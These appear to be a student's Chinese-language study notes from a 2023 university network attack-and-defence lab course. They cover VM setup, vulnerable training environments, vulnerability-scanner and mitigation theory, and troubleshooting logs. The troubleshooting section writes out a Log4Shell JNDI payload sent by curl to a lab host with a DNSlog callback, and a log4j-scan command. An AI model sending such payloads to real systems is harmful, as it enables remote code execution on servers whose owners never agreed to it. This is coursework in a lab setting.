






# 2023网安暑期攻防学习记录

**记录2023网安暑期攻防小学期相关学习笔记**

- 课程Wiki：[2023年 - 传媒网安教学 Wiki (c4pr1c3.github.io)](https://c4pr1c3.github.io/cuc-wiki/cp/2023/index.html)
- 课程视频：[网络安全(2021) 综合实验](https://www.bilibili.com/video/BV1p3411x7da?p=19&vd_source=640d60cfe2696fffb930fdf01e0aba1d)
- 视频配套课件地址:[网络安全实验课件](https://c4pr1c3.github.io/cuc-ns-ppt/vuls-awd.md.v4.html)

### 基础团队实践训练要求

团队分工跟练复现完成 [网络安全(2021) 综合实验](https://www.bilibili.com/video/BV1p3411x7da/) 。无论团队由多少人所组成，以下按本次实践训练所涉及到的人员能力集合划分了以下团队角色。一人至少承担一种团队角色，老师将按照该角色的评价标准进行 `基于客观事实的主观评价` 。

- 红队：需完成漏洞存在性验证和漏洞利用。
- 蓝队威胁监测：漏洞利用的持续检测和威胁识别与报告。
- 蓝队威胁处置：漏洞利用的缓解和漏洞修复（源代码级别和二进制级别两种）。

上述能力的基本评分原则参考“道术器”原则：最基础要求是能够跟练并复现 [网络安全(2021) 综合实验](https://www.bilibili.com/video/BV1p3411x7da/) 中演示实验使用到的工具；进阶标准是能够使用课程视频中 **未使用** 的工具或使用编程自动化、甚至是智能化的方式完成漏洞攻击或漏洞利用行为识别与处置。

## 7.10

### 课程视频学习笔记

网络安全综合实验：开源信息系统搭建、加固与漏洞攻防

- 内容提纲

  - 基础运行环境准备
  - 漏洞攻防环境现状
  - 漏洞攻防环境搭建
  - 漏洞攻击
  - 漏洞利用检测
  - 漏洞利用防御与加固

- 基础虚拟机环境搭建**必知必会**：

  - 1.安装后虚拟机网卡没有分配到IP?

    - 修改配置文件：

    - 

    - ```
      再执行：
      sudo ifdown eth0 && sudo ifup eth0
      sudo ifdown eth1 && sudo ifup eth1
      ```

  - 2.SSH服务启用与SSH免密登录

    - 
    - [可选]vscode remote on win10

  - 3.克隆出来的虚拟机IP地址—样?

  - 4.**多重加载镜像**制作与使用

  - 5.备份与还原

    - 虚拟机快照与还原
    - 默认配置文件编辑前备份

- 网络：

  - 网卡1：NAT
  - 网卡2：Host-only

- 希望用**终端**，不用图形界面

#### 学习资源

- [本课程第 7 章课件中推荐过的训练学习资源](https://c4pr1c3.github.io/cuc-ns-ppt/chap0x07.md)
  - https://github.com/c4pr1c3/ctf-games 获得本课程定制的 Web 漏洞攻防训练环境※

  - [upload-labs 一个使用 PHP 语言编写的，专门收集渗透测试和 CTF 中遇到的各种上传漏洞的靶场](https://github.com/c0ny1/upload-labs)

  - [PHP XXE 漏洞与利用源代码分析示例](https://github.com/vulnspy/phpaudit-XXE)

  - [vulhub 提供的 XXE 漏洞学习训练环境](https://github.com/vulhub/vulhub/tree/master/php/php_xxe)

  - [python-xxe](https://github.com/c4pr1c3/python-xxe)

  - [sqli-labs](https://github.com/c4pr1c3/sqli-labs) | [sqli-labs 国内 gitee 镜像](https://gitee.com/c4pr1c3/sqli-labs)

  - [一个包含php,java,python,C#等各种语言版本的XXE漏洞Demo](https://github.com/c0ny1/xxe-lab)

  - [upload-labs 一个使用 PHP 语言编写的，专门收集渗透测试和 CTF 中遇到的各种上传漏洞的靶场](https://github.com/c0ny1/upload-labs)

#### 推荐靶场

[vulhub](https://github.com/topics/vulhub)

- [vulhub/vulhub](https://github.com/vulhub/vulhub)
- [fofapro/vulfocus](https://github.com/fofapro/vulfocus)
- [sqlsec/ssrf-vuls](https://github.com/sqlsec/ssrf-vuls)

####  vulfocus快速上手

[c4pr1c3/ctf-games - fofapro/vulfocus](https://github.com/c4pr1c3/ctf-games/tree/master/fofapro/vulfocus)

#### 渗透测试与网络入侵的对比


## 7.11

#### 从单个漏洞靶标开始

> 一切来自于 **用户输入** 的数据都是不可信的。

1. 找到靶标的【访问入口】
2. 收集【威胁暴露面】信息
3. 检测漏洞存在性
4. 验证漏洞可利用性
5. 评估漏洞利用效果

进入容器：

```
docker exec -it 容器名 bash
```



```
查看可用的登录shell：
cat /etc/shells
```

根据环境变量写：


拷贝容器内的文件到虚拟机内：

```
docker cp 容器名:/demo/demo.jar ./
```



对jar包反编译

6.3.4有**DNSlog使用指南**

## 7.13

### 漏洞防护技术原理与应用

- 学习一点漏洞防护技术原理与应用：
  - [(100条消息) 信息安全-网络安全漏洞防护技术原理与应用_虚拟补丁_learning-striving的博客-CSDN博客](https://blog.csdn.net/qq_43874317/article/details/126689320)
  - [用于渗透测试的10种漏洞扫描工具 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/159163210)

漏洞分类：

- **普通漏洞：**指相关漏洞信息**已经广泛公开**，安全厂商已经有了解决修补方案
- **零日漏洞：**特指系统或软件中**新发现的**、尚未提供补丁的漏洞。零日漏洞通**常被用来实施\**定向攻击\****( Targeted Attacks)

漏洞时刻威胁着网络系统的安全，要实现网络系统安全，关键问题之一就是**解决漏洞问题，包括\*漏洞检测、漏洞修补、漏洞预防\***等

网络信息系统的漏洞**主要来自两个方面**

1. **非技术性安全漏洞：**涉及管理组织结构、管理制度、管理流程、人员管理等
2. **技术性安全漏洞**：主要涉及网络结构、通信协议、设备、软件产品、系统配置、应用系统等

无论是对攻击者还是防御者来说，网络安全漏洞信息获取都是十分必要的

- **攻击者：**通过及时掌握新发现的安全漏洞，可以更有效地实施攻击
- **防御者：**利用漏洞数据，做到及时补漏，堵塞攻击者的入侵途径

#### 漏洞扫描器

**漏洞扫描器**是常用的网络安全工具，按照扫描器运行的环境及用途，漏洞扫描器主要分三种

1. **主机漏洞扫描器**

- <u>不需要通过建立网络连接就可以进行</u>
- 其技术原理：一般是通过<u>检查本地系统中关键性文件</u>的内容及安全属性，来发现漏洞，如配置不当、用户弱口令、有漏洞的软件版本等。主机漏洞扫描器的<u>运行与目标系统在同一主机上，并且只能进行单机检测</u>

2. 网络漏洞扫描器

  - 通过<u>与待扫描的目标机建立网络连接后，发送特定网络请求进行漏洞检查</u>
  - 与主机漏洞扫描的区别：在于网络漏洞扫描器需要<u>与被扫描目标建立网络连接</u>
  - 优点：便于远程检查联网的目标系统
  - 缺点：由于没有目标系统的本地访问权限，只能获得有限的目标信息，检查能力受限于各种网络服务中的漏洞检查，如Web、 FTP、TeInet、SSH、POP3、SMTP、SNMP等

3. **专用漏洞扫描器**

  - 是主要针对<u>特定系统的安全漏洞检查工具</u>，如数据库漏洞扫描器、网络设备漏洞扫描器、Web漏洞扫描器、工控漏洞扫描器

#### 网络安全漏洞处置技术与应用

- 网络安全漏洞发现技术

  - 研究表明，攻击者要成功入侵，关键在于**及早发现和利用目标信息系统的安全漏洞**。目前，网络安全漏洞发现技术成为网络安全保障的关键技术。然而，对于软件系统而言，其功能性错误容易发现，但软件的安全性漏洞不容易发现

  - 网络安全漏洞的发现方法主要依赖于**人工安全性分析**、**工具自动化检测**及**人工智能辅助分析**。

  - 安全漏洞发现的通常方法：是将已发现的安全漏洞进行总结，形成一个漏洞特征库，然后利用该漏洞库，通过人工安全分析或者程序智能化识别

  - 漏洞发现技术：主要有<u>文本搜索、词法分析、范围检查、状态机检查、错误注入、模糊测试、动态污点分析、形式化验证</u>等（匹配技术）

  - 网络安全漏洞修补技术
    - 补丁管理是一个系统的、周而复始的工作
    - 主要由六个环节组成：分别是现状分析、补丁跟踪、补丁验证、补丁安装、应急处理和补丁检查

- 网络安全漏洞利用防范技术

  - 主要针对漏洞触发利用的条件进行干扰或拦截，以防止攻击者成功利用漏洞

  - 常见的网络安全漏洞利用防范技术如下：
    - **地址空间随机化技术**：缓冲区溢出攻击是利用缓冲区溢出漏洞所进行的攻击行动，会以shelIcode地址来覆盖程序原有的返回地址。地址空间随机化(ASLR)就是通过对程序加载到内存的地址进行随机化处理，使得攻击者不能事先确定程序的返回地址值，从而降低攻击成功的概率
    - **数据执行阻止(DEP)**：是指操作系统通过对特定的内存区域标注为非执行，使得代码不能够在指定的内存区域运行。利用DEP，可以有效地保护应用程序的堆栈区域，防止被攻击者利用
    - **SEHOP**：原理是防止攻击者利用Structured Exception Handler (SEH)重写
    - **堆栈保护**：技术原理是通过设置堆栈完整性标记以检测函数调用返回地址是否被篡改，从而阻止攻击者利用缓冲区漏洞
    - **虚拟补丁**：工作原理是对尚未进行漏洞永久补丁修复的目标系统程序，在不修改可执行程序的前提下，检测进入目标系统的网络流量而过滤掉漏洞攻击数据包，从而保护目标系统程序免受攻击。虚拟补丁通过入侵阻断、Web防火墙等相关技术来实现给目标系统程序“打补丁”，使得黑客无法利用漏洞进行攻击

## 7.16

开始实验->[相关实验记录](./README.md)

### ❌关于实验踩坑和失败记录

### 踩坑一

在安装docker前应该先执行

- ```shell
  apt-get update  
  apt-get upgrade
  ```

- 不然可能会报错——“Package 'docker' has no installation candidate”

### 踩坑二

对于log4j2，网上有很多其他人的**漏洞复现过程**记录

如：[log4j2远程代码执行漏洞原理与漏洞复现（基于vulhub）](https://blog.csdn.net/Bossfrank/article/details/130148819)

原理与老师一样，与老师课程视频的操作不同的是，网上找到的复现过程种的DNSlog接受POST请求这个过程是使用**Burpsuite**进行抓包再手动修改payload，在发送POST请求；

而老师的课程视频种是使用**命令行curl**

```shell
curl -X POST http://192.168.56.108:54307/hello -d 'payload="${jndi:ldap://0o9zuq.dnslog.cn/exp}"'
```

原理相同都是发送构造好的POST请求包，但是我在执行老师的curl命令时，不知道是因为什么原因，一直报错，如下👇

**Request method ‘POST‘ not supported Method Not Allowed**

```
{"timestamp":"2023-07-22T09:29:59.402+00:00","status":404,"error":"Not Found","path":"/hello"} 
```


在网上查询了一下报错原因：[(100条消息) Request method ‘POST‘ not supported Method Not Allowed_cy谭的博客-CSDN博客](https://blog.csdn.net/zhan107876/article/details/111595338)

带着这个报错我也在不同的虚拟机和不同电脑的虚拟机进行了实验，也是相同的问题。

我认为应该是搭建的vulfocus现在的版本和docker或者虚拟机的兼容问题，也可能是网络问题，试了一下GET请求是可以正常进行的，返回ok，curl也能成功访问到网站，但是不能用curl命令发送POST请求。

### 踩坑三

执行log4j-scan.py：

```shell
# 自行替换其中的靶标 URL
python3 log4j-scan.py --request-type post -u http://192.168.56.108:41510/hello
```


发现报错:

```
requests.exceptions.ConnectionError: HTTPSConnectionPool(host='interact.sh', port=443): Max retries exceeded with url: /register (Caused by NewConnectionError('<urllib3.connection.HTTPSConnection object at 0x7f2c429f4310>: Failed to establish a new connection: [Errno -3] Temporary failure in name resolution'))
```

- 经过查询，发现该错误可能是因为：

  - http的连接数超过最大限制，默认的情况下连接是Keep-alive的，所以这就导致了服务器保持了太多连接而不能再新建连接。
  - 也可能是程序请求速度过快。
- 在跟**踩坑二**对应看了一下，感觉 报错原因都是与发起POST请求有关，可能还是一个原因
- 暂时还没有好的解决办法

### 踩坑四

攻破最终靶标5时因为扫描不到192.169.85.2:80 导致得不到最终flag


